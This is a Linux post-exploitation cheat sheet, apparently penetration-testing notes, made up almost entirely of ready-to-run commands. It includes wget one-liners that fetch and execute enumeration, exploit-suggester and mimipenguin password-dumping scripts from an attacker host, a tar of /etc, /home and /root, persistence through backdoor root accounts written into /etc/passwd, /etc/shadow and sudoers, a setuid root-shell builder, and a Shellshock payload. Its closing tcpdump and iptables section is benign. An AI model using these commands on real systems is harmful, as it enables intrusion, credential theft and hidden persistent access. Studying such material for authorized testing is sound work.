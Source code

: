 
# Linux

## Enumeration Scripts
```
wget http://$source_ip/tools_linux/lse.sh; bash lse.sh | tee lse.sh.out
```
```
wget http://$source_ip/tools_linux/LinEnum.sh; bash LinEnum.sh | tee LinEnum.sh.out
```
```
wget http://$source_ip/tools_linux/linpeas.sh; bash linpeas.sh | tee linpeas.sh.out
```
```
wget http://$source_ip/tools_linux/linuxprivchecker.py; python linuxprivchecker.py | tee linuxprivchecker.py.out
```
```
wget http://$source_ip/tools_linux/linux-local-enum.sh; bash linux-local-enum.sh | tee linux-local-enum.sh.out
```
```
wget http://$source_ip/tools_linux/unix-privesc-check.sh; bash unix-privesc-check.sh | tee unix-privesc-check.sh.out
```
```
wget http://$source_ip/tools_linux/linux_security_test.sh; bash linux_security_test.sh | tee linux_security_test.sh.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --kernel | tee checksec.kernel.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --fortify-proc=1 | tee checksec.proc.out
```

## Process monitoring
```
wget http://$source_ip/tools_linux/pspy32; pspy32
```
```
wget http://$source_ip/tools_linux/pspy64; pspy64
```

## Exploit Suggesters
```
wget http://$source_ip/tools_linux/linux_kernel_exploiter.pl; perl linux_kernel_exploiter.pl | tee linux_kernel_exploiter.pl.out
```
```
wget http://$source_ip/tools_linux/Linux_Exploit_Suggester.pl; perl Linux_Exploit_Suggester.pl | tee Linux_Exploit_Suggester.pl.out
```
```
wget http://$source_ip/tools_linux/linux-exploit-suggester-2.pl; perl linux-exploit-suggester-2.pl | tee linux-exploit-suggester-2.pl.out
```
```
wget http://$source_ip/tools_linux/linux-exploit-suggester.sh; bash linux-exploit-suggester.sh | tee linux-exploit-suggester.sh.out
```

## Data Extraction
```
ifconfig -a; netstat -antp; arp -e; route -v; route -vn
```
```
tar -zcf linux_files.tar.gz /etc/* /home/* /root/* /var/www/* /var/log/*
```
Recursive search:
```
grep -rnwl '/path/to/somewhere/' -e "pattern"
```

## Password Dumping
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.py; python mimipenguin.py | tee mimipenguin.py.out
```
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.sh; bash mimipenguin.sh | tee mimipenguin.sh.out
```

## Persistance
```
sudo echo "amxuser ALL=(ALL) ALL" >> /etc/sudoers
```
```
/usr/sbin/useradd -p 'openssl passwd -1 amxpass' amxuser 
```
```
/usr/sbin/useradd -p 'openssl passwd -1 -salt AbCD4536 amxpass' amxuser 
```
```
echo amxpass | passwd amxuser --stdin
```
```
echo 'amxuser::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
```
echo 'amxuser:x:0:0:root:/root:/bin/bash' >>/etc/passwd
echo 'amxuser:$1$ozUCi1Me$rBG3vK5.jZUScy39PSVtM1:14798:0:99999:7:::' >>/etc/shadow
```

## Exploit 
```
echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c; gcc privsc.c -o privsc
```

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
sudo chown root:root /tmp/setuid
sudo chmod 4755 /tmp/setuid
```

Shellshock
```
curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://$target/cgi-bin/admin.cgi
```
## Network

Grep IPs
```
grep -oE "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}"
```

Using -X to output raw traffic
```
tcpdump -nX -r password_cracking_filtered.pcap | grep -A10 GET
```

Extract IP addresses from pcap
```
tcpdump -n -r dump.pcap | awk -F" " '{print $3}' | sort -u | head`
```

Filter for http requests
```
tcpdump -A -s 0 'tcp port 10443 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf>>2)) != 0)' -i eth0
```

Filter destination host
```
tcpdump -n dst host $target -r password_cracking_filtered.pcap
```

Filter for source host
```
tcpdump -n src host $target -r password_cracking_filter
```

Filter port
```
tcpdump -n port 81 -r password_cracking_filtered.pcap
```

Extract only ACK and PUSH packets
```
tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```

Create traffic counter for specific net
```
iptables -N subnet_scan
iptables -A INPUT -d 10.11.1.0/24 -j subnet_scan
iptables -vL INPUT
```

Packet and byte counter using iptables
```
#!/bin/bash

# Reset counters and iptables rules
iptables -Z && iptables -F

# Measure incoming traffic from lab machine
iptables -I INPUT 1 -s 192.168.1.23 -j ACCEPT

# Measure outgoing traffic to lab machine
iptables -I OUTPUT 1 -d 192.168.1.23 -j ACCEPT
```
```
watch -n 1 iptables -nvL
```
